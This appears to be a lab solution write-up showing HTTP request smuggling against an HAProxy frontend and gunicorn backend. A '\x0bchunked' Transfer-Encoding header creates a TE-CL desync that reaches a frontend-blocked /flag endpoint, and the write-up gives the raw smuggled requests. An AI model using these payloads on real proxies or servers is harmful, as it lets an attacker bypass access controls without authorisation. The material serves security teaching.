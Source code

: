 Now time to exploit haproxy!!!

Credits first:
https://github.com/p4k03n4t0r/http-request-smuggling?tab=readme-ov-file
https://ctftime.org/writeup/20655
https://nathandavison.com/blog/haproxy-http-request-smuggling
https://blog.deteact.com/gunicorn-http-request-smuggling/

HAProxy has a vulnerability that causes the parser to ignore the TE (Transfer-Encoding) header when encountering the `\x0b` character.

First of all let's see normal behaviour:
![[Images/5- Lab Solution 2/req_1.png]]

![](../Images/5-%20Lab%20Solution%202/default_haproxy.png)

It stripped out CL header and kept TE header.
This nice behaviour! But what happens if we inject \x0b there?
(https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=MGI&oeol=VT copy & paste)

![[Images/5- Lab Solution 2/req_2.png]]

![[Images/5- Lab Solution 2/wireshark_1.png]]

It didn't strip out TE!
How will gunicorn behave?

```
if value.lower() == "chunked":
```

That shouldn't work right? It should skip chunked and use CL header instead.

![](../Images/5-%20Lab%20Solution%202/processed_0.png)

But there is also another process applied to value, before compared to "chunked".

![](../Images/5-%20Lab%20Solution%202/processed_1.png)

So in the end:

![](../Images/5-%20Lab%20Solution%202/processed_2.png)
Meaning:
gunicorn accepts that:
```
Transfer-Encoding: \x0bchunked
```
as valid header and process request as chunked. (\x0b is non printable char)

So:
- haproxy ignored TE header, used CL
- gunicorn used TE header, ignored CL

We need to exploit TE-CL.

Frontend have to send entire request to backend, backend will check TE header.

![[Images/5- Lab Solution 2/req_3.png]]We can use update CL header option, as we want frontend to send everything to backend.

![[Images/5- Lab Solution 2/wireshark_2.png]]
Nope?
Server should have sent 2 responses?

Let's make it more obvious, I changed GET / to GET /404
![[Images/5- Lab Solution 2/wireshark_3.png]]

We didn't get extra response?

But in the theory server sees:

```
GET /404 HTTP/1.1
Host: we_do_not_need_host
Content-Length: 54
Transfer-Encoding: \x0bchunked\r\n
0\r\n\r\n
```

```
GET /flag HTTP/1.1\r\n
Host: we_do_not_need_host\r\n\r\n
```

It should have sent 2 responses back to us.

Maybe it stuck in backend some reason?
We can confirm if it is really there by sending one more request:

First:
![](../Images/5-%20Lab%20Solution%202/req_4.png)
Second:
![](../Images/5-%20Lab%20Solution%202/req_5.png)

Send them:
![](../Images/5-%20Lab%20Solution%202/req_6.png)

That worked!

![[Images/5- Lab Solution 2/wireshark_4.png]]

Server returned all responses now?

Server sees:

```
GET /404 HTTP/1.1
Host: we_do_not_need_host
Content-Length: 54
Transfer-Encoding: chunked\r\n
0\r\n\r\n
```

```
GET /flag HTTP/1.1\r\n
Host: we_do_not_need_host\r\n\r\n
```

```
ERROR / HTTP/1.1\r\n
Host: we_do_not_need_host\r\n\r\n
```

(I chose last request as ERROR so it is easier to identify in wireshark)

Somewhy it returns response after we send another request after the first one, otherwise it doesn't return everything like what we saw in mitmproxy.

Let's do it for last time.

First:
![](../Images/5-%20Lab%20Solution%202/req_7.png)
Second:
![](../Images/5-%20Lab%20Solution%202/req_8.png)

We need to make sure second is a valid request.

You could have sent something like that too
```
something\r\n\r\n
```
But it wouldn't work because of frontend server (it can't parse something is not a valid http request and forward to backend right?)

![](../Images/5-%20Lab%20Solution%202/req_9.png)

![[Images/5- Lab Solution 2/wireshark_5.png]]

![[Images/5- Lab Solution 2/wireshark_6.png]]

What server see:
Request 1:
```
GET /404 HTTP/1.1\r\n
Host: we_do_not_need_host\r\n
Content-Length: 60\r\n
Transfer-Encoding: chunked\r\n
0\r\n\r\n
```
Request 2:
```
GET /flag HTTP/1.1\r\n
Host: we_do_not_need_host\r\n
Foo: barGET / HTTP/1.1\r\n\r\n
```
Server sends back 2 responses. (/flag endpoint blocked on frontend server not on backend)